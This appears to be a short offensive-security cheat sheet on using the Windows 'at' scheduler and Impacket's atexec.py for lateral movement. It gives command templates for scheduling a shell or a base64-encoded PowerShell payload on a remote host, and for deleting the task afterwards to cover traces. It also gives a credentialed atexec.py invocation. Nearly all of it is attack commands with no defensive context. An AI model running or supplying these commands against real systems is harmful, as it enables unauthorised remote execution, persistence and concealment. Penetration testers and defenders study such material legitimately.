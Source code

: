 # At

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Living off the Land

### 1.1 - Syntax

```
C:\> at.exe <HH:mm> /interactive /every:<m | t | w | th | f | s | su> C:\path\to\shell.exe
```

### 1.2 - Usage

- Retrieve local time in order to create a schedule task.

```
C:\> net.exe time \\<IP>

PS C:\> Invoke-Command [-ComputerName <IP>] -ScriptBlock {Get-Date}
```

- Create a schedule task.

```
C:\> at.exe [\\<IP>] <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at.exe [\\<IP>] <HH:mm> "powershell.exe -E <base64_payload>"
```

- Cleanup the schedule by querying the current computer and then delete the identifier number.

```
C:\> at.exe [\\<IP>]

C:\> at.exe [\\<IP>] <id> /delete /yes
```

## 02 - Impacket

`$ atexec.py <username>:<password>@<IP>`

---
## References

- [Impacket Remote Execution Tools - atexec.py](https://u0041.co/blog/post/1)